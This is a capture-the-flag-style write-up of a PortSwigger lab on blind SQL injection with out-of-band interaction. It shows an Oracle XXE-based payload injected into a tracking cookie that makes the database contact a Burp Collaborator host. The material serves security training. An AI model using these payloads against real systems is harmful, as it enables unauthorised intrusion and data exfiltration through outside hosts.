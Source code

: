 # Lab: Blind SQL injection with out-of-band interaction

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>  
Difficulty: PRACTITIONER  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- Goal: Perform a DNS lookup

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is to create a new Burp Collaborator listener

![create collaborator](img/create_collaborator.png)

The [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) contains multiple strings to cause a DNS lookup. I don't know the database engine used, so I try all payloads given there.

Starting with Oracle, I append the given payload to the cookie value. I ensure the query remains valid by adding brackets, concatenations and quotes around the payload (`'||(<PAYLOAD>)||'`) to create this query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h9r49h8t93o98v0z0canusskqbw1kq.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'
```

![collaborator hit](img/collaborator_result.png)

![success](img/success.png)
